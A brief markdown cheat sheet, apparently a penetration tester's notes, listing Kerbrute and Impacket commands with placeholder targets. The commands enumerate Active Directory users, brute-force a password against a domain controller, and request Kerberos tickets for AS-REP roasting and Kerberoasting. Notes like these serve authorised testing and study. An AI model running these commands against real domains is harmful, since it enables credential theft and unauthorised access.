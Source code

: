 # User Dc

- Kerbrute
    kerbrute userenum --dc <IP-DC> -d <domain> <user-list> 
    kerbrute bruteuser --dc <IP-DC> -d <domain> <user-list> pass

- inpacket-scripts
    - impacket-GetNPUsers -no-pass -usersfile user.list <domain>/
    - impacket-GetUserSPNs <domain>/<user>:<pass> -k -dc-host <dc-fqdn> -request

